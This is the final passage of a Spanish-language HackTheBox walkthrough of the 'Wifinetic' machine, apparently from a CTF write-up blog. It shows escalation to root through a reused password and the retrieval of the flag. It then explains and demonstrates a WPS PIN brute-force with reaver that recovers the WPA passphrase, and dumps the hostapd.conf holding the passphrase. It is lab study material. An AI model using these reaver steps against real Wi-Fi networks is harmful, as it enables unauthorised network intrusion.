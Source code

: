 Esta contraseña también es válida para root, por lo que estando ya podremos tomar la última flag.

```bash
netadmin@wifinetic:~$ su root
Password: 
root@wifinetic:/home/netadmin# cd 
root@wifinetic:~# ls
root.txt  snap
root@wifinetic:~# cat root.txt
7cd0ff377e496502edaf759172******
```

## Extra

El ataque de fuerza bruta no duró mucho debido a que el PIN utilizado en el WPS de la red era uno que estaba en la lista de PINs que Reaver intenta utilizar por defecto, sin embargo en caso de ser un PIN completamente distinto es posible aprovecharse del protocolo WPS para efectuar un ataque de fuerza bruta más rápido debido a que este primero comprueba si la primera mitad del PIN de 8 dígitos es válida y luego la otra mitad. Usando esto es posible reducir el número de intentos en un ataque de fuerza bruta

```bash
# Pasándole solo la mitad del PIN, podemos ver como Reaver se aprovecha de este principio para adivinar el resto.
root@wifinetic:~# reaver -i mon0 -p "1234" -b '02:00:00:00:00:00'

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
```

Si quieres ver como funciona a nivel técnico esto, [te recomiendo ver este documento](https://sviehb.files.wordpress.com/2011/12/viehboeck_wps.pdf)

¿Y cómo diablos una máquina de HackTheBox puede anunciar una red WiFi? te preguntarás; el programa `hostapd` es la respuesta a esa pregunta.

```bash
root@wifinetic:/etc/hostapd# ls -la
total 16
drw-------   2 root root 4096 Aug  8 15:16 .
drwxr-xr-x 107 root root 4096 Sep 21 12:19 ..
-rw-------   1 root root  363 Jul 31 11:03 hostapd.conf
-rw-------   1 root root 3129 Aug 13  2019 ifupdown.sh
root@wifinetic:/etc/hostapd# cat hostapd.conf
interface=wlan0
driver=nl80211
ssid=OpenWrt
wds_sta=1
hw_mode=g
channel=1
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=WhatIsRealAnDWhAtIsNot51121!
wps_state=2
eap_server=1
config_methods=label display push_button keypad
wps_pin_requests=/var/run/hostapd.pin-req
```